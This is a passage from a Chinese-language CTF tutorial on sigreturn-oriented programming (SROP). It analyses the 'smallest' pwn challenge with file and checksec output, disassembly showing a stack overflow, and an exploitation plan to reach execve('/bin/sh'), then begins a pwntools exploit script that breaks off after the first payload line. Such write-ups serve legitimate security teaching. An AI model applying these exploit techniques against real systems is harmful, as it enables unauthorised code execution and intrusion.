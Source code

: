 ## 利用工具

**值得一提的是，在目前的pwntools中已經集成了對於srop的攻擊。**

## 示例

這裏以360春秋杯中的smallest-pwn爲例進行簡單介紹。基本步驟如下

**確定文件基本信息**

```text
➜  smallest file smallest
smallest: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, stripped
```

可以看到該程序爲64位靜態鏈接版本。

**檢查保護**

```text
➜  smallest checksec smallest
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

程序主要開啓了NX保護。

**漏洞發現**

實用IDA直接反編譯看了一下，發現程序就幾行彙編代碼，如下

```asm
public start
start proc near
xor     rax, rax
mov     edx, 400h
mov     rsi, rsp
mov     rdi, rax
syscall
retn
start endp
```

根據syscall的編號爲0，可以知道該程序執行的指令爲read(0,$rsp,400)，即向棧頂讀入400個字符。毫無疑問，這個是有棧溢出的。

**利用思路**

由於程序中並沒有sigreturn調用，所以我們得自己構造，正好這裏有read函數調用，所以我們可以通過read函數讀取的字節數來設置rax的值。重要思路如下

- 通過控制read讀取的字符數來設置RAX寄存器的值，從而執行sigreturn
- 通過syscall執行execve("/bin/sh",0,0)來獲取shell。

**漏洞利用程序**

```python
from pwn import *
from LibcSearcher import *
small = ELF('./smallest')
if args['REMOTE']:
    sh = remote('127.0.0.1', 7777)
else:
    sh = process('./smallest')
context.arch = 'amd64'
context.log_level = 'debug'
syscall_ret = 0x00000000004000BE
start_addr = 0x00000000004000B0
## set start addr three times
payload = p64(start_addr) * 3
```